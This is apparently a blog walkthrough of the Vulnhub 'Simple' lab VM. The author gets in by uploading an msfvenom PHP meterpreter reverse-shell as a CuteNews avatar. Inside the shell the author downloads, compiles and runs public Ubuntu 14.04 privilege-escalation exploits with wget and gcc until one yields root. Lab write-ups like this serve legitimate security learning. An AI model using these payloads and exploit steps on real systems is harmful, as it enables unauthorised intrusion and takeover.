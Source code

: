Title:Vulnhub SecTalks: BNE0x03 - Simple
Date: 05-10-2016 21:49
category:security
tags:msfvenom, security, vulnhub, metasploit
meta:msfvenom, security, vulnhub, metasploit

<img class="align-left"
src="/media/2016.05/simple1.png" alt="Simple homepage" width="162">

As droopy was not really hard and doesn't contain as much web vulnerability as I
would hope for, I tried an other VM
[SecTalks: BNE0x03 - Simple](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)
There were also hints on the description of the machine but with my resolution
they do not appear when just browsing the main page of vulnhub so I have not
spoiled myself with the hints this time.

<!-- PELICAN_END_SUMMARY -->

## Discovery

Let's nmap the box to get some knowledge about it:

    root@kalili:~# nmap 10.0.2.5 -p0-65535

    Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-11 15:42 CEST
    Nmap scan report for 10.0.2.5
    Host is up (0.00032s latency).
    Not shown: 65535 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 08:00:27:60:21:5C (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 2.60 seconds

There seems once more that only the port 80 with a HTTP service is available.

## Web

We go to the website. We notice that it is powered by CuteNews 2.0.3 (look at
the footer). We search on internet for vulnerability and found
[one](https://www.exploit-db.com/exploits/37474/).
This vulnerability allow the execute PHP code by uploading a malicious avatar.

![/media/2016.05/simple1.png]

We create an account in order to upload our avatar.

![/media/2016.05/simple2.png]

We generate a PHP meterpreter using `msfvenom`:

    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -e php/base64 -f raw > /tmp/shell.php

We prepare our metasploit for the callback:

    msf > use exploit/multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 10.0.2.5
    LHOST => 10.0.2.5
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > exploit
    [*] Started reverse handler on 10.0.2.5:4444
    [*] Starting the payload handler...

We upload our msfvenom's payload as our avatar.

We go to `http://10.0.2.5/uploads/avatar_john_shell.php` and we got our
meterpreter!
Let's see what this box is made of:

    uname -a
    Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux

Once more an Ubuntu 14.04, like the droopy from yesterday.

## Privileges escalation

### CVE-2015-1328 exploiting overlayFS

Let us try once again to exploit the CVE-2015-1328 exploiting overlayFS to get
a root shell on the machine. I started a shell from the meterpreter, download
the exploit, compile it, run it and failed it:

    meterpreter > shell
    Process 1335 created.
    Channel 3 created.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    wget https://www.exploit-db.com/download/37292
    --2016-05-11 09:59:52--  https://www.exploit-db.com/download/37292
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5123 (5.0K) [application/txt]
    Saving to: '37292'

        0K .....                                                 100%  409M=0s

    2016-05-11 09:59:53 (409 MB/s) - '37292' saved [5123/5123]

    mv 37292 ofs.c
    gcc ofs.c -o ofs
    ls
    avatar_john_shell.php
    ofs
    ofs.c
    chmod +x ofs
    ./ofs
    spawning threads
    mount #1
    mount #2
    child threads done
    exploit failed

When searching for exploit regarding linux 3.16.0 I found the CVE-2014-5207:

### CVE-2014-5207 Fuse-based exploit

[CVE-2014-5207 Fuse-based exploit](https://www.exploit-db.com/exploits/34923/).
I download the exploit, compiled it and once more failed it:

    gcc -Wall fuse_suid.c `pkg-config fuse --cflags --libs` -o fuse_suid
    /bin/sh: 1: pkg-config: not found
    fuse_suid.c:21:18: fatal error: fuse.h: No such file or directory
    #include <fuse.h>
                      ^
    compilation terminated

When searching for `ubuntu 14.04 privilege escalation exploit` I found two
interesting exploits :
 * CVE-2015-3643
 * CVE-2015-1318 + CVE-2015-1862

### CVE-2015-3643

[The CVE-2015-3643](https://www.exploit-db.com/exploits/36820/) exploit the
D-Bus listening on com.ubuntu.USBCreator.
I try this exploit but the module was not available and failed:

    dbus-send --print-reply --system --dest=com.ubuntu.USBCreator /com/ubuntu/USBCreator com.ubuntu.USBCreator.KVMTest string:/dev/sda dict:string:string:DISPLAY,"foo",XAUTHORITY,"foo",LD_PRELOAD,"/tmp/test.so"
    Error org.freedesktop.DBus.Error.ServiceUnknown: The name com.ubuntu.USBCreator was not provided by any .service files

### CVE-2015-1318 + CVE-2015-1862

[The CVE-2015-1318 + CVE-2015-1862](https://www.exploit-db.com/exploits/36746/)
exploit a feature in ubuntu 14.04 allowing a user to forward crash reports
([more informations here](http://exploiterz.blogspot.fr/2015/04/2015-cve-1318-leading-to-privilege.html)).
I download the exploit, compiled it with `-static` and run it to get a root
shell on the box:

    meterpreter > shell
    Process 1550 created.
    Channel 9 created.
    cd /tmp/
    wget https://www.exploit-db.com/download/36746
    --2016-05-11 11:22:39--  https://www.exploit-db.com/download/36746
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5216 (5.1K) [application/txt]
    Saving to: '36746'

        0K .....                                                 100%  337M=0s

    2016-05-11 11:22:43 (337 MB/s) - '36746' saved [5216/5216]

    mv 36746 newpid.c
    gcc -static newpid.c
    newpid.c:17:3: warning: #warning this file must be compiled with -static [-Wcpp]
    # warning this file must be compiled with -static
      ^
    ./a.out
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
    id
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)

## Conclusion

We just need to get our hands on the flag to finish it.

    cat /root/flag.txt
    U wyn teh Interwebs!!1eleven11!!1!
    Hack the planet

It was a nice box with still not so much web exploitation and only one exploit
to launch to get to root.
Thanks to [Robert Winkel](https://twitter.com/@RobertWinkel) for the box and as
always to Vulnhub for their work.
